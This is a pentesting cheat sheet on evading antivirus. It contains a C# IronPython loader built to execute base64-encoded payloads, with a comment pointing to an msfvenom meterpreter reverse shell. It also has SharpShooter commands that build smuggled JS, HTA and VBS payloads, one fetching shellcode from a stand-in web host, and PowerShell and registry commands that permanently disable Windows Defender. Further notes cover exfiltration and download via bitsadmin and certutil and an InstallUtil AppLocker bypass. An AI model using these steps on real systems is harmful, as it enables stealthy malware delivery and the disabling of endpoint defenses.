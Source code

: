 # AV Bypass
## Contents
- [AV Bypass](#av-bypass)
  * [Contents](#contents)
  * [Techniques](#techniques)
    + [Targeting Processes to Evade Detection](#targeting-processes-to-evade-detection)
    + [IronPython](#ironpython)
  * [Tools](#tools)
    + [Veil Framework:](#veil-framework-)
    + [Shellter](#shellter)
    + [Sharpshooter](#sharpshooter)
    + [Donut:](#donut-)
    + [Vulcan](#vulcan)
    + [Scarecrow](#scarecrow)
    + [Sharpshooter](#sharpshooter-1)
  * [Commands](#commands)
- [Living Off the Land](#living-off-the-land)
  * [Use Microsoft .NET InstallUtil to Evade AppLocker](#use-microsoft-net-installutil-to-evade-applocker)
- [Resources](#resources)
  * [Cheat sheets](#cheat-sheets)
  * [Workshops](#workshops)

## Techniques         
Modify malware to evade signature analysis, encode using obfuscation tools, leverage permitted tools (Living Off the Land)    
### Targeting Processes to Evade Detection     
Process Injection, Process Hollowing, Process Masquerading     

### IronPython         
Execute obfuscated Python natively in a C# program, encode it as a variable then execute (no Python interpreter needed). Source: https://www.willhackforsushi.com/sec504/csharp_py.cs     
~~~
// This is the excellent work of Chris Davis of Counter Hack
// Small edits by Joshua Wright for clarity

using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace csharp_py
{
    class Program
    {
        static void Main(string[] args)
        {
            // Create an IronPython engine to execute Python code
            Microsoft.Scripting.Hosting.ScriptEngine pythonEngine =
                IronPython.Hosting.Python.CreateEngine();

            // Print the default search paths
            // You may need to manually add these paths to include the DLLs necessary for execution
            System.Console.Out.WriteLine("Search paths:");
            ICollection<string> searchPaths = pythonEngine.GetSearchPaths();
            foreach (string path in searchPaths)
            {
                System.Console.Out.WriteLine(path);
            }
            System.Console.Out.WriteLine();

            // Now modify the search paths to include the directory
            // where the standard library has been installed
            searchPaths.Add(@"..\..\Lib");
            searchPaths.Add(@"..\Lib");
            searchPaths.Add(@".\Lib");
            pythonEngine.SetSearchPaths(searchPaths);

            // Execute the malicious Python coce
            // Replace the payload below with your own, possibly the output of msfvenom
            // msfvenom -p python/meterpreter/reverse_tcp LHOST=10.10.75.1
            Microsoft.Scripting.Hosting.ScriptSource pythonScript = pythonEngine.CreateScriptSourceFromString("exec(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('cAByAGkAbgB0ACgAJwByAGUAcABsAGEAYwBlACAAdABoAGkAcwAgAHAAcgBpAG4AdAAgAHMAdABhAHQAZQBtAGUAbgB0ACAAdwBpAHQAaAAgAHQAaABlACAAbQBzAGYAdgBlAG4AbwBtACAAcAB5AHQAaABvAG4AIABwAGEAeQBsAG8AYQBkACcAKQA=')[0]))");
            pythonScript.Execute();
        }
    }
}
~~~

## Tools     

### Veil Framework:

Install on Kali

    apt install veil
    /usr/share/veil/config/setup.sh --force --silent

Reference: https://github.com/Veil-Framework/Veil

### Shellter

Source: https://www.shellterproject.com/download/

    apt install shellter


### Sharpshooter

Javascript Payload Stageless: 

    SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

Stageless HTA Payload: 

    SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

Staged VBS:

    SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

Reference: https://github.com/mdsecactivebreach/SharpShooter

### Donut: 

Source: https://github.com/TheWover/donut

### Vulcan

Source: https://github.com/praetorian-code/vulcan


### Scarecrow

Source: https://github.com/optiv/ScareCrow

In Kali: 

    sudo apt install golang

    go get github.com/fatih/color
    go get github.com/yeka/zip
    go get github.com/josephspurrier/goversioninfo

    go build ScareCrow.go

    ./ScareCrow

### Sharpshooter
[SharpShooter](https://github.com/mdsecactivebreach/SharpShooter)   

Javascript Payload Stageless:   

    SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

Stageless HTA Payload: 

    SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

Staged VBS:

    SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4


## Commands 
Turning off Windows Defender 

    Set-MpPreference -DisableRealtimeMonitoring $true   

Need to run Powershell as admin and reboot after running command to turn off Windows Defender indefinetly: 

    New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -name disableantispyware -value 1 -Force


View Windows Defender logs   

    Get-WinEvent 'Microsoft-Windows-Windows Defender/Operational' MaxEvents 10 | Where-Object Id -e 1116 | Format-List 


# Living Off the Land   
https://lolbas-project.github.io/    
Typical binaries used: Rundll32, Regsvr32, Msiexec, Mshta, Certutil, MSBuild, WMI command line utility (WMIC), WMI provider host (WmiPrvSe)      
Bitsadmin: exfil data   
Certutil: download data    

## Use Microsoft .NET InstallUtil to Evade AppLocker   
Execute code in program's local memory via reflection.    

    PS > InstallUtil /U mal.exe     #put malicious code in Uninstall routine of a program    
    
# Resources  
## Cheat sheets 
https://github.com/sinfulz/JustEvadeBro   
https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell 

[AV Payloads](https://github.com/RoseSecurity/Anti-Virus-Evading-Payloads)    


## Workshops 
https://github.com/BC-SECURITY/Beginners-Guide-to-Obfuscation 




